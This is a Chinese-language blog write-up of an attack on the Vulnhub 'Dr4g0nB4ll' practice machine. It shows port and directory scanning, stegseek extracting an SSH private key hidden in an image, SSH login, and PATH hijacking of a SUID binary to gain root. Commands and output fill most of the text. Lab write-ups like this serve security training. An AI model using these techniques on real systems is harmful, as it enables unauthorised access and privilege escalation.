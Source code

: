 ```yaml
---
title: 'Dr4g0nB4ll - Vulnhub靶机'
date: 2024-02-22 18:00:00 +0800
categories: []
tags: [hack]
---
```

### 主机发现

```shell
192.168.30.133
```

### 信息收集

```shell
└─$ nmap -sV -A 192.168.30.133
Starting Nmap 7.94 ( https://nmap.org ) at 2024-02-22 03:26 EST
Nmap scan report for 192.168.30.133
Host is up (0.0013s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 b5:77:4c:88:d7:27:54:1c:56:1d:48:d9:a4:1e:28:91 (RSA)
|   256 c6:a8:c8:9e:ed:0d:67:1f:ae:ad:6b:d5:dd:f1:57:a1 (ECDSA)
|_  256 fa:a9:b0:e3:06:2b:92:63:ba:11:2f:94:d6:31:90:b2 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: DRAGON BALL | Aj's
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.56 seconds
```

查看80端口

![image-20240222162800682](../assets/img/old_imgs/image-20240222162800682.png)

浏览发现没有明显信息，同步目录爆破

```shell
PS C:\Users\qianenzhao> dirsearch.exe -u 192.168.30.133:80

  _|. _ _  _  _  _ _|_    v0.4.3.post1
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: C:\Users\qianenzhao\reports\_192.168.30.133_80\_24-02-22_16-23-32.txt

Target: http://192.168.30.133/

[16:23:32] Starting:
[16:23:33] 403 -  279B  - /.ht_wsr.txt
[16:23:33] 403 -  279B  - /.htaccess.bak1
[16:23:33] 403 -  279B  - /.htaccess.sample
[16:23:33] 403 -  279B  - /.htaccess_extra
[16:23:33] 403 -  279B  - /.htaccess.save
[16:23:33] 403 -  279B  - /.htaccess_orig
[16:23:33] 403 -  279B  - /.htaccess_sc
[16:23:33] 403 -  279B  - /.htaccessBAK
[16:23:33] 403 -  279B  - /.htaccessOLD2
[16:23:33] 403 -  279B  - /.htaccess.orig
[16:23:33] 403 -  279B  - /.htaccessOLD
[16:23:33] 403 -  279B  - /.htm
[16:23:33] 403 -  279B  - /.html
[16:23:33] 403 -  279B  - /.htpasswd_test
[16:23:33] 403 -  279B  - /.httr-oauth
[16:23:33] 403 -  279B  - /.htpasswds
[16:23:34] 403 -  279B  - /.php
[16:23:57] 200 -   33B  - /robots.txt
[16:23:57] 403 -  279B  - /server-status/
[16:23:57] 403 -  279B  - /server-status

Task Completed
```

发现存在robots.txt页面

访问得到如下字符`eW91IGZpbmQgdGhlIGhpZGRlbiBkaXI=`

解密得到`you find the hidden dir`

目录爆破无果，审计网站代码

![image-20240222163252652](../assets/img/old_imgs/image-20240222163252652.png)

查找子域名无果，但是发现在末尾注释中存在这样一段字符```VWtaS1FsSXdPVTlKUlVwQ1ZFVjNQUT09```

经过三次`base64`解密得到字符串`DRAGON BALL`

利用这个字符串尝试访问网站目录

![image-20240222163457164](../assets/img/old_imgs/image-20240222163457164.png)

![image-20240222163544001](../assets/img/old_imgs/image-20240222163544001.png)

> secret.txt页面

![image-20240222164314069](../assets/img/old_imgs/image-20240222164314069.png)

无法通过`submit`交互，也无法直接跳转，但是查看源代码可知这个链接打开的图片与先前发现的图片名字一致，尝试下载先前那张图片寻找突破

![image-20240222164859400](../assets/img/old_imgs/image-20240222164859400.png)

常规`binwalk`等尝试无果，尝试使用工具进行爆破

```shell
┌──(kali㉿kali)-[~]
└─$ sudo stegseek ./Desktop/aj.jpg /usr/share/wordlists/rockyou.txt
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] Found passphrase: "love"
[i] Original filename: "id_rsa".
[i] Extracting to "aj.jpg.out".
```

得到密码，原文件名，打开发现是`ssh密钥`

```shell
┌──(kali㉿kali)-[~/Desktop]
└─$ cat aj.jpg.out
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
...略...
cYmthvUYneQMnt2czKF3XqEvXVPXmnbu9xt079Qu/xTYe+yHZAW5j7gzinVmrQEsvmdejq
9PpqvWzsLFnkXYEMWdKmmHqrauHOcH0hJtEmHuNxR6Zd+XjiRsPuBGxNRE22L/+j++7wxg
uSetwrzhgq3D+2QsZEbjhO+ViDtazKZVjewBCxm7O0NhPFFcfnwTOCDLg+U8Wd1uuVT1lB
Bd8180GtBAAaGtiwAAAAlrYWxpQGthbGk=
-----END OPENSSH PRIVATE KEY-----
```

该机器`ssh`端口已经暴露，尝试利用密钥`ssh`登陆，缺少用户名

回头看发现在登陆页面上有一个疑似用户名的关键词

![image-20240222180928831](../assets/img/old_imgs/image-20240222180928831.png)

搜索发现`xmen`指的是X战警，很有可能就是用户名

###获得立足点

![image-20240222181031980](../assets/img/old_imgs/image-20240222181031980.png)

😘成功得到立足点~

ps这里有个小细节,在利用密钥进行ssh登陆时,会对密钥文件有一个检测,如果该文件开放权限过高会拒绝我们的使用,如下:

![image-20240222181148990](../assets/img/old_imgs/image-20240222181148990.png)

解决办法就是更改该文件的权限:`chmod 600 filename`

### 提权

利用`find`命令查找`suid`提权

```shell
xmen@debian:~$ find / -perm -u=s -type f 2>/dev/null
/home/xmen/script/shell
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/bin/umount
/usr/bin/su
/usr/bin/mount
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/passwd
```

存在一个`shell`看上去就很可疑

```shell
xmen@debian:~/script$ ls
demo.c  shell
```

```c
xmen@debian:~/script$ cat demo.c
#include<unistd.h>
void main()
{ setuid(0);
  setgid(0);
  system("ps");
}
```

甚至直接给出了源码,思路很清晰了,劫持环境变量提权

```shell
xmen@debian:~$ echo '/bin/sh' > /tmp/ps
xmen@debian:~$ chmod 777 /tmp/ps
xmen@debian:~$ export PATH=/tmp:$PATH
xmen@debian:~$ ./script/shell
# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),1000(xmen)
```

```shell
# cd /root
# ls
proof.txt
# cat proof.txt
   _____ __________
  /     \\______   \          ___  ___ _____   ____   ____
 /  \ /  \|       _/          \  \/  //     \_/ __ \ /    \
/    Y    \    |   \           >    <|  Y Y  \  ___/|   |  \
\____|__  /____|_  /__________/__/\_ \__|_|  /\___  >___|  /
        \/       \/_____/_____/     \/     \/     \/     \/

join channel:   https://t.me/joinchat/St01KnXzcGeWMKSC

your flag: 031f7d2d89b9dd2da3396a0d7b7fb3e2
```

👌拿下

last:看到《红队笔记》新一期讲解这个靶机来试试，个人感觉这台靶机就像是`ctf`做题的靶机，没有什么特别的难点疑点，了解常用路数加上`ctf`的一些知识`（misc）`轻松可以拿下haha，话是这么讲但是还是被图片隐写卡住了。



